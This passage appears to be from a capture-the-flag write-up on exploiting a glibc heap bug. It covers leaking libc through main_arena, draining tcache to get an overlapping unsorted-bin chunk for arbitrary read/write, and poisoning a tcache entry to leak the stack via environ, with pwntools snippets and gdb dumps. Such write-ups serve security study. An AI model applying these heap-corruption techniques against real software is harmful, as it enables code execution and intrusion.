 A show on B then leaks the pointer to main\_arena. To find the exact offset inspect the leak address and subtract the libcbase (via `vmmap`) from it.

# Getting a Write Primitive

To prepare, we clear up tcache\[0x130\] (which has 7 entries at this point). Because tcache\[0x130\] is empty now, the next allocation is served by the unsorted bin (the huge free chunk created by our overlap).

```python
for i in range(7):
    add(0x128)
add(0x128)
```

```
0x5611538f34d0:    0x0000000000000000  0x0000000000000131
0x5611538f34e0:    0x00005611538f330a  0x0000000000000000
0x5611538f34f0:    0x00007f71377d7f0a  0x00007f71377d7fd0
0x5611538f3500:    0x414141414141410a  0x4141414141414141
...
0x5611538f35f0:    0x4141414141414141  0x4141414141414141
0x5611538f3600:    0x4141414141414141  0x0000000000000131
0x5611538f3610:    0x00007f71377d7c0a  0x00007f71377d7ca0
0x5611538f3620:    0x4242424242424242  0x4242424242424242
...
0x5611538f3710:    0x4242424242424242  0x4242424242424242
0x5611538f3720:    0x0000000000000240  0x0000000000000100
0x5611538f3730:    0x4343434343434343  0x00000000000000f1
0x5611538f3740:    0x00007f71377d7ca0  0x00007f71377d7ca0
0x5611538f3750:    0x4343434343434343  0x4343434343434343
...
```

The last allocation we did is exactly on top of B because it comes from the unsorted bin. Remember that in the last step, by leaking libc, we pushed the unsorted bin down – this is the location we got back now.

With this setup, we can now read/write from/to any location.

# Leaking the Stack

The libc given to us has no ""/bin/sh" string so we can not use one\_daget, otherwise we could write to malloc\_hook or free\_hook and get a shell that way.

There is a neat trick to leak the stack address via the *environ* pointer. This is a pointer with a symbol in libc that points at the stack (you can get the offset from libc\_base via (`print(libc.symbols['environ'])`).

We free the last 2 allocated chunks, resulting in 2 tache\[0x130\] entries. Then we edit B (which sits on top of the second just freed chunk) at fd pointer position so it contains a pointer to libc->environ:

```python
free(8)
free(9)
for i in range(8-2, 8-9, -1):
    edit(1, b'B'*i + p64(libc_environ)[:6])
```
